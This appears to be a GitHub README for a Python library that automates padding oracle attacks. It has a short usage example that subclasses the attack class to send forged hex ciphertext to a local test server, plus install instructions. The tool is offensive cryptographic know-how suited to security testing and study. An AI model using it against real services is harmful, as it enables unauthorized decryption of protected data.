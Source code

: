 a library for padding oracle attack
---

Payload_model is a abstract class handling all details of padding oracle attack algorithm.
You should specify a subclass of payload_model and change some import methods. You can customize it to fit different environment.

basic usage
---
```python
from padding_oracle_attack import payload_model
import grequests
from grequests import request

class payload(payload_model):

    def make_request(self, fake_data) -> request:
        params = {
                "data": bytes.hex(fake_data)
            }

        return request("get", "http://127.0.0.1:5000", params=params)

if __name__ == "__main__":
    m = payload("3a10f84900818b1c439430600524fb0f00000000000000000000000000000000")
    m.run()
```
![record](https://github.com/lcark/padding_oracle_attack/raw/main/media/padding_snap.GIF)

result picture
---

![result](https://github.com/lcark/padding_oracle_attack/raw/main/media/result.png)

install
---
```bash
pip install padding-oracle-attack
```